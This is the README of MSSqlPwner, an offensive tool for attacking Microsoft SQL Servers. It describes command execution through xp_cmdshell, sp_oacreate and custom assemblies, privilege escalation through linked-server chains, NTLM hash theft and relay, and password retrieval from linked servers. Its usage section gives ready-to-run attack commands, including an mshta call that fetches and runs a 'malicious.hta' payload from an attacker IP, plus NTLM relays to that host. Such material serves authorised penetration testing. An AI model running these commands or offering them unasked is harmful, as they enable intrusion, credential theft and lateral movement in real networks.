 # MSSqlPwner
<p align="center">
 <img src="https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/logo.PNG?raw=true">
</p>
MSSqlPwner is an advanced and versatile pentesting tool designed to seamlessly interact with MSSQL servers and based on Impacket.
The MSSqlPwner tool empowers ethical hackers and security professionals to conduct comprehensive security assessments on MSSQL environments.

With MSSqlPwner, users can execute custom commands through various methods, including custom assembly, `xp_cmdshell`, and `sp_oacreate(Ole Automation Procedures)` and much more. 

The tool starts with recursive enumeration on linked servers and gather all the possible chains.

Also, the MSSqlPwner tool can be used for NTLM relay capabilities, utilizing functions such as `xp_dirtree`, `xp_subdirs`, `xp_fileexist`, and command execution.

This tool provide opportunities for lateral movement assessments and exploration of linked servers.

If the authenticated MSSQL user does not have permission to execute certain operations, the tool can find a chain that might allow the execution. 
For example, it can send a query to a linked server that returns back with a link to the authenticated MSSQL service with higher permissions.
The tool also supports recursive querying via links to execute queries and commands on otherwise inaccessible linked servers directed from the compromised MSSQL service.

## Example
<p align="center">
 <img src="https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/poc.png?raw=true">
</p>

This tool is supported by multiple authentication methods and described below.

## Disclaimer
This tool is designed for security professionals and researchers for testing purposes only and should not be used for illegal purposes.

## Functionalities:
1. Utilities:
- `interactive`: allow to use the tool interactively with live execution.
- `enumerate`: enumerate the linked servers and the chains.
- `get-chain-list` get the list of the chains.
- `get-link-server-list` get the list of the linked servers.
- `set-chain` Set chain ID (For interactive-mode only!)
- `set-link-server` Set link server (For interactive-mode only!)
- `get-rev2self-queries` retrieve queries to revert to SELF (For interactive-mode only!).
- `get-adsi-provider-list` retrieve ADSI provider list.
- `rev2self` revert to SELF (For interactive-mode only!).

2. Command Execution: Execute commands using the following functions:
- `xp_cmdshell` Execute commands using `xp_cmdshell` on local server or on linked servers
- `sp_oacreate` Execute commands using Ole Automation Procedure technique on local server or on linked servers

3. Password Retrieval:
- `retrive-password` Password retrieval from the linked server.

4. NTLM Hash Stealing and Relay: Issue NTLM relay or steal NTLM hashes using the following functions:
- `xp_dirtree` NTLM stealing using directory listing on local server or on linked servers
- `xp_subdirs` NTLM stealing using subdirectory listing on local server or on linked servers
- `xp_fileexist` NTLM Stealing using file existence check on local server or on linked servers

5. Procedure execution using custom assembly and stored procedures:
- `execute_command` procedure executing commands using custom assembly on local server or on linked servers
- `run_query` procedure executing queries using custom assembly on local server or on linked servers
- `run_query_system_service` procedure executing queries using custom assembly on local server or on linked servers as system user
6. Direct Queries 
- `direct_query` Execute direct queries on local server or on linked servers


## Lateral Movement and Chain Exploration:
MSSqlPwner provides opportunities for lateral movement assessments and exploration of linked servers. 
In scenarios where the current session lacks administrative privileges, the tool attempts to find a chain that escalates its own privileges via linked servers. 
If a session on a linked server has higher privileges, the tool can interact with the linked server and perform a linked query back to the host with elevated privileges, enabling lateral movement with the target server.

## Authentication Methods:
Supported by multiple authentication methods, including:
- Windows credentials
- MSSQL credentials
- Kerberos authentication
- Kerberos tickets
- NTLM Hashes

The tool adapts to various scenarios and environments, verifying the effectiveness of authentication mechanisms.

Take your MSSQL environment assessments to the next level with the power and versatility of MSSqlPwner. 
Discover new possibilities for lateral movement, stealthy querying, and precise security evaluations with this the MSSqlPwner tool.

## Installation
```
git clone https://github.com/ScorpionesLabs/MSSqlPwner
cd MSSqlPwner
pip3 install -r requirements.txt
python3 MSSqlPwner.py
```

## Usage
```
# Interactive mode
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth interactive


# Executing custom assembly on the current server with windows authentication and executing hostname command 
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate

# Issuing NTLM relay attack on the SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250

# Executing direct query
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth direct_query "SELECT CURRENT_USER"

# Retrieving password from the linked server DC01
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 retrive-password
```


## Thanks
- [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111) for designing this incredible logo.
- [Pablo Martínez](https://www.tarlogic.com/blog/linked-servers-adsi-passwords/) for the inspiration and the idea of the retrieving password technique.
- [Omri Baso](https://www.linkedin.com/in/omri-baso-875aaa191/) for helping with inspiration and ideas.